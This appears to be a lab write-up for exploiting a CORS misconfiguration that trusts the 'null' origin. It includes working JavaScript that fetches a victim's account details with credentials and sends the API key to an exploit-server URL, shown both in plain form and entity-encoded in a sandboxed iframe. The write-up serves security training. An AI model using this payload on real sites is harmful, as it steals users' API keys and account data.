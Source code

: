 # CORS vulnerability with trusted null origin
# Objective
This website has an insecure CORS configuration in that it trusts the `null` origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

# Solution
## Analysis
The `GET` request to `/accountDetails` retrieves: username, email, API key and active user sessions.
|![](Images/image-4.png)|
|:--:| 
| *Normal request and response* |

After adding `Origin: null` to the request, the application reflects the origin `null` origin in `Access-Control-Allow-Origin` header. Header `Access-Control-Allow-Credentials: true` is also present in response from server.
|![](Images/image-5.png)|
|:--:| 
| *Reflected null origin in response* |


## Exploitation
In order to exploit this CORS vulnerability, attacker can use the followinng code:
```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ae200c90441a8f18049364d00fc008a.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0a1000b8046da86880ea359001170022.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>
```
HTML enoding can help deal with special characters.
|![](Images/image-7.png)|
|:--:| 
| *HTML encoding the above javascript code* |

Final page:
```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial">
    </head>
    <body>
        <h4>Exploit</h4> 
        <iframe 
        sandbox="allow-scripts allow-top-navigation allow-forms"
        srcdoc="&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x76;&#x61;&#x72;&#x20;&#x72;&#x65;&#x71;&#x20;&#x3d;&#x20;&#x6e;&#x65;&#x77;&#x20;&#x58;&#x4d;&#x4c;&#x48;&#x74;&#x74;&#x70;&#x52;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x28;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x6f;&#x6e;&#x6c;&#x6f;&#x61;&#x64;&#x20;&#x3d;&#x20;&#x72;&#x65;&#x71;&#x4c;&#x69;&#x73;&#x74;&#x65;&#x6e;&#x65;&#x72;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x6f;&#x70;&#x65;&#x6e;&#x28;&#x27;&#x67;&#x65;&#x74;&#x27;&#x2c;&#x27;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x30;&#x61;&#x65;&#x32;&#x30;&#x30;&#x63;&#x39;&#x30;&#x34;&#x34;&#x31;&#x61;&#x38;&#x66;&#x31;&#x38;&#x30;&#x34;&#x39;&#x33;&#x36;&#x34;&#x64;&#x30;&#x30;&#x66;&#x63;&#x30;&#x30;&#x38;&#x61;&#x2e;&#x77;&#x65;&#x62;&#x2d;&#x73;&#x65;&#x63;&#x75;&#x72;&#x69;&#x74;&#x79;&#x2d;&#x61;&#x63;&#x61;&#x64;&#x65;&#x6d;&#x79;&#x2e;&#x6e;&#x65;&#x74;&#x2f;&#x61;&#x63;&#x63;&#x6f;&#x75;&#x6e;&#x74;&#x44;&#x65;&#x74;&#x61;&#x69;&#x6c;&#x73;&#x27;&#x2c;&#x74;&#x72;&#x75;&#x65;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x77;&#x69;&#x74;&#x68;&#x43;&#x72;&#x65;&#x64;&#x65;&#x6e;&#x74;&#x69;&#x61;&#x6c;&#x73;&#x20;&#x3d;&#x20;&#x74;&#x72;&#x75;&#x65;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x73;&#x65;&#x6e;&#x64;&#x28;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x66;&#x75;&#x6e;&#x63;&#x74;&#x69;&#x6f;&#x6e;&#x20;&#x72;&#x65;&#x71;&#x4c;&#x69;&#x73;&#x74;&#x65;&#x6e;&#x65;&#x72;&#x28;&#x29;&#x20;&#x7b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x6c;&#x6f;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x3d;&#x27;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x65;&#x78;&#x70;&#x6c;&#x6f;&#x69;&#x74;&#x2d;&#x30;&#x61;&#x31;&#x30;&#x30;&#x30;&#x62;&#x38;&#x30;&#x34;&#x36;&#x64;&#x61;&#x38;&#x36;&#x38;&#x38;&#x30;&#x65;&#x61;&#x33;&#x35;&#x39;&#x30;&#x30;&#x31;&#x31;&#x37;&#x30;&#x30;&#x32;&#x32;&#x2e;&#x65;&#x78;&#x70;&#x6c;&#x6f;&#x69;&#x74;&#x2d;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2e;&#x6e;&#x65;&#x74;&#x2f;&#x6c;&#x6f;&#x67;&#x3f;&#x6b;&#x65;&#x79;&#x3d;&#x27;&#x2b;&#x65;&#x6e;&#x63;&#x6f;&#x64;&#x65;&#x55;&#x52;&#x49;&#x43;&#x6f;&#x6d;&#x70;&#x6f;&#x6e;&#x65;&#x6e;&#x74;&#x28;&#x74;&#x68;&#x69;&#x73;&#x2e;&#x72;&#x65;&#x73;&#x70;&#x6f;&#x6e;&#x73;&#x65;&#x54;&#x65;&#x78;&#x74;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x7d;&#x3b;&#x0a;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;">
        </iframe>
    </body>
</html>
```

|![](Images/image-6.png)|
|:--:| 
| *Log with administrator API key* |
|![](Images/image-8.png)|
| *URL decoded data* |

